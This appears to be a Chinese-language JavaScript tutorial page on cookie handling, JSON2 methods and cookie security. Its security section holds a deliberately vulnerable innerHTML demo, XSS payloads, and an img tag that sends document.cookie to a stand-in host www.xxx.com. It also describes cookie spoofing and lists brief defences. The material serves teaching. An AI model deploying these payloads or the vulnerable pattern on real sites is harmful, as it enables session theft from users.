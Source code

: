 ## cookie的其它操作

添加与覆盖： 浏览器用cookie名称来区别cookie，添加不同名称cookie会一直续在前一个cookie后，同名的cookie会覆盖值。 

删除cookie： 不能直接删除cookie，但是设置失效日期为过去，浏览器会删除cookie。 

中文及特殊字符支持： 使用escape（）函数编码cookie值，读取时使用unescape（）函数解码。 

判断cookie是否存在： document.cookie.indexOf(NameOfCookie+“=”); //使用字符串函数indexOf 。

```javascript
例：document.cookie=“str=”+escape(“I love ajax”);相当于document.cookie="str=I%20love%20ajax"; 
```

## Json2的方法 

JSON2.js文件提供字符串转JSON和JSON转字符串的方法 

```javascript
JSON.parse()【从一个字符串中解析出JSON对象】
例子：
var data='{"name":"goatling"}'
JSON.parse(data)
结果是：
{name:"goatling“}
JSON.stringify()【从一个JSON对象中解析出字符串】
var data={name:'goatling'}
JSON.stringify(data)
结果是：
'{"name":"goatling"}‘
```

## cookie的安全策略 

XSS攻击： 跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写 混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之 时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。 

### cookie的安全策略（攻击代码示例） 

```javascript
html代码
 <body>
<span id="s"></span>
<textarea id="txtId" style="width:200px;height:200px" ></textarea>
<input id="btn" type="button" value="测试" />
</body>
 script代码
window.onload = function(){
document.getElementById("btn").onclick = function(){
 document.getElementById("s").innerHTML = document.getElementById("txtId").value;
}
}
 运行html页面，在文本域里输入：
<a href="" onclick="javascript:{alert('dd');for(var i=0;i<10;i++){alert(i)}}" >百度</a>
cookie的安全策略
XSS攻击：
<script>alert(document.cookie)</script>
<a href="" onclick="javascript:(function(){alert(444);})()">超级</a>
这段代码能够发送当前cookie到www.xxx.com
<img src='http://www.xxx.com?cookie='+document.cookie;/>
cookie欺骗：
拿到cookie后，分析出用户名和密码，然后修改自己的cookie为分析出的用户名密码，访问网站成功登
录。
如何防范：
1，Html转码（防止“<”等特殊字符，防止注入js）
2，敏感信息加密
```